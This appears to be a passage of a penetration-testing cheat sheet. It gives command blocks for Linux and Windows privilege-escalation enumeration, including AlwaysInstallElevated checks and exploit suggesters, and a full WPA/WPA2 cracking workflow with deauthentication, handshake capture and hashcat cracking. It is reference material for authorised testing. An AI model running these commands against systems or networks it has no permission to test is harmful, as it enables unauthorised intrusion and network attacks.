 ```bash
cat /etc/crontab
ls -la /etc/cron*
# Check for writable cron scripts

# 5. Kernel exploits
uname -a
searchsploit linux kernel 4.15
```

### Windows Privilege Escalation
**Problem**: Escalating privileges on Windows systems

**Solution**:
```powershell
# 1. Enumeration
whoami /priv
systeminfo
net user
net localgroup administrators

# 2. PowerShell enumeration
PowerUp.ps1
Invoke-AllChecks

# 3. Windows exploit suggester
systeminfo > systeminfo.txt
python windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo systeminfo.txt

# 4. Service exploitation
sc query
wmic service list brief

# 5. Registry exploitation
reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated"
reg query "HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated"
```

## Wireless Penetration Testing Solutions

### WPA/WPA2 Cracking
**Problem**: Cracking WPA/WPA2 wireless networks

**Solution**:
```bash
# 1. Monitor mode setup
airmon-ng start wlan0
iwconfig wlan0mon

# 2. Network discovery
airodump-ng wlan0mon

# 3. Capture handshake
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# 4. Deauthentication attack
aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# 5. Crack handshake
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture.cap

# 6. GPU acceleration with hashcat
cap2hccapx.bin capture.cap capture.hccapx
hashcat -m 2500 capture.hccapx /usr/share/wordlists/rockyou.txt
```